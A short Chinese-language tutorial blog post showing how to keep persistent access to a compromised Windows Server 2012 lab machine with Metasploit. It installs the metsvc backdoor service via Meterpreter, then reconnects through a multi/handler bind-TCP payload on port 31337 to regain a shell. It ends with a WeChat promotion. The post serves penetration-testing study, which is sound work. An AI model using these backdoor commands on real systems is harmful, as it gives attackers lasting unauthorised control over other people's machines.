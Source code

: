 ```yaml
---
layout: post
category: curleyg-code-hack
title: kali Metasploit设置永久访问权限
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: Metasploit设置永久访问权限
lock: need
---
```


# Metasploit设置永久访问权限

攻击机： Kali 192.168.75.10

靶机： Windows Server 2012 192.168.75.130

此前提是经过一系列的渗透，已成功渗透靶机。

设置永久访问权限，需要在Meterpreter命令行中运行如下命令：

```
run metsvc -A
```

![img](https://img-blog.csdnimg.cn/20190115155420509.png)

当我们下次需要访问靶机的时候，只需要在攻击机上执行如下操作：

```
msfconsole
use exploit/multi/handler
set payload windows/metsvc_bind_tcp
set RHOST 192.168.75.130
set LPORT 31337
exploit
```

![img](https://img-blog.csdnimg.cn/20190115155455181.png)

看到，我们已经成功拿到Shell。

# 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
